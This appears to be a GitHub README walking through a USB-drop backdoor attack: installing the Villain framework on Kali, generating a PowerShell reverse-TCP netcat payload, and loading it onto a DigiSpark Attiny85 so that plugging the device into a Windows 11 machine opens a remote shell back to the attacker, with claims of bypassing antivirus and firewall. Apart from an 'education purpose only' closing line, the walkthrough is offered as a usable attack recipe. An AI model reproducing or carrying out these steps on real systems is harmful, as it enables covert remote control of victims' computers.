 # Network-Security

# Requirements:
•	 Kali Linux (attacker’s machine) <br>
•	 Windows 11 (victim’s machine) <br>
•	 Villain Tool on Kali Linux <br>
•	 DigiSpark Attiny85 <br>
•	 Arduino IDE <br>

# Installing Villain Tool
Install the latest version of Villain manually:<br>
```console
sudo git clone https://github.com/t3l3machus/Villain.git<br>
```
![1](https://github.com/mishqatabid/Network-Security/assets/145700715/09fc9dac-f0db-40b0-a0f4-40429e2849f9)<br>

Install the `requirements.txt` <br>
```console
cd ./Villain
pip3 install -r requirements.txt
```
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/bf6b1320-018e-4696-9bfa-531802b8824a)<br>

You should also install `gnome-terminal` (required for one of the framework's commands):<br>
```
sudo apt update&&sudo apt install gnome-terminal
```

![3](https://github.com/mishqatabid/Network-Security/assets/145700715/193d2fe2-69b8-4d75-bb41-f9f8c4a05611)<br>

Now it is ready to use<br>

![4](https://github.com/mishqatabid/Network-Security/assets/145700715/58e48912-81fa-4e9f-9c00-8142a1c0b8ec)<br>

# Generate & Test Payload
## Generating Payload
As Villain tool is operating, we will use it to generate to generate the required payload for our backdoor. <br>
To generate the payload, write the keyword generate, specify the type of payload you want to generate, then specify the local host and click enter to get the desired payload<br>
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 
```
![5](https://github.com/mishqatabid/Network-Security/assets/145700715/9ce703b6-b38c-490d-95fb-2053b6abdf96)<br>

## Testing Payload
•	 The payload is generated and it’s time to test the payload. <br>
•	 For testing we are using Windows 11<br>
•	 Open the PowerShell, paste the payload on shell and click enter <br>
•	 You can witness that the payload is running successfully and have bypassed the Windows Antivurus and Firewall

![8](https://github.com/mishqatabid/Network-Security/assets/145700715/0cdfab1e-1864-4f2a-88b6-769287d7126c)<br>

# Deploying Payload
•	 To deploy the payload, we will download the [Arduino IDE](https://www.arduino.cc/en/software)<br>
•	 Open the IDE, create a new sketch file and write down the code for Digispark Attiny85.<br> 
•	 The [Sketch](https://github.com/mishqatabid/Network-Security/blob/main/sketch.ino) is then compiled and uploaded on Arduino present in Digispark Attiny85<br>

![9](https://github.com/mishqatabid/Network-Security/assets/145700715/72708055-3aa5-4420-997f-4c04f5cfc400)<br>

# Backdoor
•	 Now when the victim inject the Attiny85 in its machine. <br>
•	 After few seconds, search bar is opens and PowerShell is searched<br>
•	 It opens the PowerShell, then automatically pastes the payload and click enter to execute it.<br>
•	 Once the script is executed you can witness that a backdoor session has been established on the Villain terminal on attacker’s machine.<br>

![1](https://github.com/mishqatabid/Network-Security/assets/145700715/14a21b81-32fb-4aea-a391-cf8f05fcc434)<br>

•	 Now by typing sessions on the Villain terminal, you can see all the possible session that has been established using the payload.<br>
•	 It contains Session ID, IP Address, OS Type, User, Owner and Status.<br>
![2](https://github.com/mishqatabid/Network-Security/assets/145700715/2e9c453d-733a-4f26-a2a0-6d2f5fb5daeb)<br>
![3](https://github.com/mishqatabid/Network-Security/assets/145700715/5573c2c2-8853-424c-8717-e8e0e623f528)<br>

Now the backdoor has been created, you can easily execute any command<br>

# Use this for Education Purpose ONLY
